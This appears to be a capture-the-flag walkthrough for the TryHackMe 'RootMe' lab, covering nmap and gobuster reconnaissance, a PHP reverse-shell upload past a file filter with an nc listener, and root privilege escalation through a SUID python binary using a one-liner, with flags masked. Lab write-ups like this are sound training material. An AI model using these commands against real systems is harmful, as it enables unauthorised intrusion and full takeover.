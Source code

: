 <p align="center"><img src="./Cover.png" width="310" ></p>
<h1><p align="center">Simple CTF : </p></h1><h2><p align="center"> A ctf for beginners, can you root me?</h2></p>

### Room Link: [RootMe](https://tryhackme.com/room/rrootme) 

## Recon...
So I began with nmap scan to Find entry points.
```bash 
$ sudo nmap -T4 -sC -sS -A 10.10.210.59 > nmap.out
$ cat nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2021-03-22 11:00 GMT
Nmap scan report for ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)
Host is up (0.00038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:31:87:E1:4C:F5 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.11 seconds
```

As I can see there is a http server running on target. Lets checkout and let dirbuster run in background.
```bash
$ sudo gobuster dir -u http://10.10.231.92/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -o dir.out
$ cat dir.out 

http://10.10.231.92/uploads (Status: 301)
http://10.10.231.92/css (Status: 301)
http://10.10.231.92/js (Status: 301)
http://10.10.231.92/panel (Status: 301)
http://10.10.231.92/server-status (Status: 403)

```

## Foot Hold...

Now there are 2 directories that I found intresting and one had a upload form. So I tried to upload php reverse shell script and bypassed with burp. 
While ```nc``` Listening in background.
```bash
$ sudo nc -lvnp 8080 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$whoami
www-data 
```
We have a reverse shell, stabalize it with this one liner ``` python3 -c 'import pty;pty.spawn("/bin/bash")'```.

Now find user.txt flag.
```bash
www-data@rootme:/$ find / -name user.txt -type f 2>/dev/null

/var/www/user.txt

www-data@rootme:/$ cat /var/www/user.txt

THM{****************}
```

## Privlege Escalation...

Lets enumerate the user. I used [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
for it.
```bash 
www-data@rootme:/var/tmp$ ./linpeas.sh
./linpeas.sh
 Starting linpeas. Caching Writable Folders...

                     ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄▄
      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄
  ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄
  ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
  ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
  ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
  ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
  ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
  ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
  ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
  ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
  ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
  ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
  ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
   ▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄
        ▄▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄ 
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
    linpeas v3.0.2 by carlospolop
                                                                                                                             
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.                                                                                               
                                                                                                                             
...
[+] SUID - Check easy privesc, exploits and write perms                                                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                
strings Not Found                                                                                                            
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping6                                              
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping
-rwsr-sr-x 1 root   root            3.5M Aug  4  2020 /usr/bin/python
```
So there is a SUID set for python as root, lets exploit it.Check [GTFOBins](https://gtfobins.github.io/gtfobins/python/).

```bash
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@rootme:/# whoami
root
root@rootme:/# cat /root/root.txt

THM{*******************}
```

Now root flag can be obatined but I wannted to own the root on **RootMe** so I changed the password and rooted the box.
